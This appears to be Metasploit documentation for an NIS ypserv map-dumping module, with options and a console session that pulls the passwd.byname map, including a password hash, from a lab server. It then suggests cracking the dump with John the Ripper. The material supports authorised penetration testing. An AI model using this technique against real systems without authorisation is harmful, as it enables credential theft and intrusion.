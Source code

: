## Introduction

If you've worked with old Unix systems before, you've probably
encountered NIS (Network Information Service). The most familiar way of
describing it is a sort of hybrid between DNS and LDAP.

[Oracle][1] says the following about it:

> NIS is a distributed naming service. It is a mechanism for identifying and locating network objects and resources. It provides a uniform storage and retrieval method for network-wide information in a transport-protocol and media-independent fashion.

And on its use:

> By running NIS, the system administrator can distribute administrative databases, called maps, among a variety of servers (master and slaves). The administrator can update those databases from a centralized location in an automatic and reliable fashion to ensure that all clients share the same naming service information in a consistent manner throughout the network.

The module documented within will allow a tester to dump any map from an
NIS server (running as `ypserv`). Usually, maps like `passwd.byname`
contain things like hashes and user info, which can go a long way during
a pentest.

## Setup

Set up NIS as per <https://help.ubuntu.com/community/SettingUpNISHowTo>.
If the link is down, you can find it via the Wayback Machine.

## Options

**PROTOCOL**

Set this to either TCP or UDP. TCP is the default due to easy discovery.

**DOMAIN**

Set this to your NIS domain.

**MAP**

Set this to the NIS map you want to dump. The default is `passwd`. You
can use the nicknames described in the module info instead of the full
map names.

**XDRTimeout**

Set this to the timeout in seconds for XDR decoding of the response.

## Usage

```
msf > use auxiliary/gather/nis_ypserv_map
msf auxiliary(gather/nis_ypserv_map) > set rhost 192.168.0.2
rhost => 192.168.0.2
msf auxiliary(gather/nis_ypserv_map) > set domain gesellschaft
domain => gesellschaft
msf auxiliary(gather/nis_ypserv_map) > run

[+] 192.168.0.2:111 - Dumping map passwd.byname on domain gesellschaft:
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
ubuntu:$6$LXFAVGTO$yiCXi1KjLynOrapuhJE7tKnvdwknDMKiKM7Z8ZB19ht6CHmsS.CbUTm8q0cy5fFHEqA.Sg4Acl.0UtY.Y0JNE1:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
games:*:5:60:games:/usr/games:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
systemd-resolve:*:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
systemd-network:*:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
uuidd:*:108:112::/run/uuidd:/bin/false
dnsmasq:*:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
root:*:0:0:root:/root:/bin/bash
sshd:*:110:65534::/var/run/sshd:/usr/sbin/nologin
systemd-bus-proxy:*:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
messagebus:*:107:111::/var/run/dbus:/bin/false
_apt:*:105:65534::/nonexistent:/bin/false
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
syslog:*:104:108::/home/syslog:/bin/false
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
systemd-timesync:*:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
pollinate:*:111:1::/var/cache/pollinate:/bin/false
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
lxd:*:106:65534::/var/lib/lxd/:/bin/false

[*] Auxiliary module execution completed
msf auxiliary(gather/nis_ypserv_map) >
```

After dumping a map, you can find it stored in `loot` later. You should
be able to run something like John the Ripper directly on the
`passwd.byname` map.

```
msf auxiliary(gather/nis_ypserv_map) > loot

Loot
====

host         service  type           name  content     info  path
----         -------  ----           ----  -------     ----  ----
192.168.0.2           passwd.byname        text/plain        /home/wvu/.msf4/loot/20180108143013_default_192.168.0.2_passwd.byname_509006.txt

msf auxiliary(gather/nis_ypserv_map) >
```

[1]: https://docs.oracle.com/cd/E23824_01/html/821-1455/anis1-25461.html
